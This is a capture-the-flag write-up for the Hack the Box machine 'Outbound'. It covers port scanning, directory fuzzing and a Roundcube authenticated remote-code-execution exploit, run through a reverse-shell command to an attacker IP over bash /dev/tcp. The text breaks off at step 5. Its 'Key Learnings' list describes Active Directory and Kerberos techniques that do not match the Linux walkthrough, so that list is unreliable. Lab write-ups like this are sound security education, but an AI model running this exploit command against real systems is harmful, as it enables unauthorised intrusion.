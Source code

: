 # Outbound

**Platform: Hack the Box**

**OS: Linux**

**Diffculty: Easy**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings
- Familiarize using tools without NTLM authentication. Use tools with only Kerberos authentication
- Learn more about Kerberos authentication on Active Directory
- Learn about Active Directory Recycle bin and the deleting object process with it enabled
- Enumerate and restore deleted user with bloodyAD
- Decrypt DPAPI keys with Impacket's Dpapi.py
- Exfiltrate NTDS.dit and the SYSTEM registry hive and obtain domain hashes with secretsdump


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="711" height="290" alt="image" src="https://github.com/user-attachments/assets/5b58b511-79f5-47c5-a6c1-a3365116cf5f" />


2. Nmap shows only SSH and HTTP ports open. Visiting the website automatically redirects us to a mail server at mail.outbound.htb. Enumerate subdomains and do dirbusting.

`ffuf -u http://mail.outbound.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 5327`

<img width="696" height="101" alt="image" src="https://github.com/user-attachments/assets/4b6a549c-2b17-4407-aee3-6d91385cbe58" />

3. Found a roundcube webmail server! 

<img width="463" height="404" alt="image" src="https://github.com/user-attachments/assets/c35646fa-5f2e-44ae-87d3-78f3330a4e40" />

4. Googling for Roundcube exploits, we find a PHP Authenticated Remote Code Execution script. Running the script, we confirm we have RCE on the target machine and get a reverse shell

`sudo php /opt/CVE-2025-49113-Roundcube-Authenticated-RCE.php http://mail.outbound.htb/roundcube/ tyler LhKL1o9Nm3X2 'bash -c "bash -i >& /dev/tcp/10.10.14.176/80 0>&1"'`

<img width="847" height="150" alt="image" src="https://github.com/user-attachments/assets/611d0c33-3fb8-41c2-8fed-9c8a5ca30760" />

<img width="637" height="169" alt="image" src="https://github.com/user-attachments/assets/822e624f-cc42-4d67-8415-33b84a40c459" />

5. 

